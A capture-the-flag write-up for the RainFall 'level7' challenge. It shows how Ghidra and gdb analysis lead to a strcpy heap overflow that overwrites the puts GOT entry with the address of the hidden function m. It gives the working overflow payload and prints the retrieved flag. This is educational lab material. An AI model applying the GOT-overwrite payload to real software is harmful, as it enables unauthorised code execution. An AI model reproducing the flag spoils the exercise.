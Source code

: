 ### Exploitation of the `level7` Binary

This guide provides a step-by-step explanation of how to exploit the `level7` binary to display the flag stored in the variable `c`.

#### Step 1: Decompile the Binary with Ghidra

Use Ghidra to decompile the binary and obtain the pseudocode. After analyzing the code, identify the key parts as follows:

#### Step 2: Analyze Available Functions

- The main function (`main`) executes:
  ```c
  __stream = fopen("/home/user/level8/.pass", "r");
  fgets(c, 68, __stream);
  ```
  This stores the flag in the variable `c`, which is never explicitly declared in the pseudocode.

- However, the `c` variable is printed in the `m` function, which is never called:
  ```c
  void m(void *param_1, int param_2, char *param_3, int param_4, int param_5) {
      time_t param2;
      param2 = time(NULL);
      printf("%s - %d\n", c, param2);
  }
  ```

The goal of this exercise is to call the `m` function after `fgets` reads the flag.

#### Step 3: Find Function Addresses

Use `gdb` to obtain the addresses of the functions:

```bash
gdb level7
```

In `gdb`:
```gdb
info functions
```

Addresses found:
- Address of the `m` function: `0x080484f4`
- Address of the `puts` function: `0x08049928`

#### Step 4: Exploit the Buffer Overflow Vulnerability

To trigger the exploit, use `strcpy`, which is vulnerable as it does not check the size of the given string.

- **Test the input length that causes an overflow**:

```bash
./level7 $(python -c 'print("A" * 20)')
```

- **Finding the overflow length**:

By trial and error, determine the input length that causes an overflow:
```bash
level7@RainFall:~$ ./level7 test test
~~
level7@RainFall:~$ ./level7 testtest test
~~
level7@RainFall:~$ ./level7 testtesttesttesttestt test
Segmentation fault (core dumped)
level7@RainFall:~$
```

An input of 21 characters (`testtesttesttesttestt`) causes an overflow. We need to replace `ptr1[1]` with the address of `puts`.

- **Constructing the Exploit**:

With the overflow of the first `strcpy`, we can change `ptr2[1]` to have the address of the `puts` function.

- **Second `strcpy`**:

The second `strcpy` will write what we provide as the second input at the `puts` function address, allowing us to overwrite `puts` with the address of the `m` function.

- **Final Input String**:

The input will consist of `20 characters for overflow` + `puts address`, followed by the `m` function.

```bash
./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

#### Running the Exploit

```bash
./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

#### Result

You should see the output of the `m` function, which prints the contents of the `c` variable, the flag:

```bash
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

Congratulations! You have successfully exploited the `level7` binary to obtain the flag.
